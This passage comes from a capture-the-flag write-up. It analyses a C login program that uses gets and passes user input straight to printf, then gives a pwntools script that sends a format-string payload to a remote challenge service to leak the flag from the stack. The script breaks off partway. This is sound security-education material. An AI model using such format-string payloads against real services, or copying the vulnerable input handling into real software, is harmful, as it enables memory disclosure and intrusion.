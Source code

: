 ```C
}

void login(){
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// The flag isn't printed anymore. No need for authentication
	print_flag(username);
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

In this new version, the program doesn't retrieve password anymore because the flag isn't printed, but we notice it is still stored in memory, in the stack frame of `print_flag`. In this function, we can see a bad usage of the `printf` function where a user supplied input is passed as the `fmt` argument for the function printf.

This allows an attacker to provide format strings that would be processed by printf. As many of these formats can be used to display printf arguments (and the actual hasn't any), we can try to leak the stack values in the function. 

Remember that in `x86-64` arguments are first passed into registers and then into the stack if there is more. This means that if we provide more than 6 `%p` in input, we should start leaking stack values.

Now its a matter of testing in order to find the correct printf argument offset to the flag, and then try to leak entirely. I usually use pwntools for such things, but in our case it was simple enough for trying manually. We supply enough `%p-` into the input, and look at printed values. If we see many printed pointers that holds only ASCII values, we can try to see if its the flag. It could also be determined theorically.

After trying a bit, I found correct offsets to flag and succeeded to dump it using the format string:
```python
from pwn import *
import argparse
import time

parser = argparse.ArgumentParser()
parser.add_argument("ip")
args = parser.parse_args()

p = remote(args.ip, 1337)

time.sleep(0.5)

p.sendline(f"%10$p-%11$p-%12$p".encode())

p.recvuntil(b'Hello, ')
flag_encoded = p.recvline().strip().decode().split('.')[0].split('-')

parts_decoded = [ p64(int(x, 16)) for x in flag_encoded ]
```